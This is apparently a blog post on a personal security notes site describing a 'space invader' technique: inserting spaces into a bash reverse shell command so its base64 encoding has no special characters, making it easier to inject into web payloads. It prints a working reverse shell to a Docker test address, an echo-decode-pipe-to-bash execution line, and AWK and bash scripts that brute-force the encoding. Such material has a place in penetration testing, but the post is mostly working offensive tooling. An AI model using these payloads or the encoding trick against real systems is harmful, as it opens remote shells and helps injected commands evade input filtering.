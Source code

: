 +++
title = 'Script to Optimize Alphanumeric Base64 for Reverse Shell Payloads'
date = 2023-11-24T16:43:52-06:00
draft = false
+++

# Description of the Problem
When trying a reverse shell payload, you want to remove as many variables as possible.
Often it must be injected in the middle of a series of broken quotes or special characters.
It would be beneficial to remove as many special characters as possible.

Base64 consists of an alphabet of uppercase, lowercase, numbers, and special symbols like plus signs.
These speical characters have meaning in web payloads, where form encoding or json special characters may mean you have to alter your payload to work properly in the context where you paste it.

- example reverse shell payload for testing in a docker that generates plus signs in its base64
```bash
echo "bash -c 'bash -i >& /dev/tcp/172.17.0.1/9001 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzkwMDEgMD4mMScK
```

## Optimizing Base64
If we optimize the base64, we could remove all special characters by altering the payload such that it returns only alphanumeric characters.
One way to do this is by adding spaces. The best place to add spaces is where there are already spaces in a payload.
Usually, there is some combination of spaces which will push the characters into positions in the byte string in which they do not need any special characters to be reresented in the base64 string.
The resulting payload should be free of any special characters except for any pipe characters and spaces that are absolutely necessary.

- optimized base64 payload
```bash
echo YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTcyLjE3LjAuMS85MDAxICAwPiYx|base64 -d|bash
```
- decoding the payload
```bash
echo YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTcyLjE3LjAuMS85MDAxICAwPiYx|base64 -d
bash -i  >& /dev/tcp/172.17.0.1/9001  0>&1
```
As you can see, spaces have been inserted in two locations in order to move the characters around to specific locations.
How can this easily be done?

## The Algorithm

The easiest algorithm to implement is to just start trying all possibilities of spaces inserted until one converts to alphanumeric base64.
I have [implemented such an algorithm in bash and awk](https://github.com/nicholas-long/environment/blob/main/zet/20230906035744/README.md).
I use this script within the [shortcut command in my environment for creating reverse shell snippets](https://github.com/nicholas-long/environment/blob/main/zet/20230906035650/README.md)

A walkthrough of the script to produce all possible space combinations is implemented below in AWK.

```awk
#!/usr/bin/awk -f
# print all variations of spaces between tokens
function expand_rec(str, pos) {
  if (pos > NF) { # recursion base case - end of char array
    printf("%s\n", str "")
    return
  } else {
    expand_rec(str " " $pos, pos + 1)
    expand_rec(str "  " $pos, pos + 1)
    expand_rec(str "   " $pos, pos + 1)
    expand_rec(str "    " $pos, pos + 1)
  }
}
{
  expand_rec("", 1)
}
```
I call this script "space invader". It uses recursion to produce all variations of spaces.
The goal of this script is to have it run until the output buffer is closed because a solution has been found.

A simple bash script wrapped around it can base64 encode every line until a solution is found.
```bash
#!/bin/bash
# find alphanumeric base64 using awk script
echo "$1" | $ENVIRON_BASEPATH/zet/20230906035744/space-invader | while read line; do
  echo -n "$line" | base64 -w0
  echo ""
done | grep '^[A-Za-z0-9]*$' | head -n 1
```
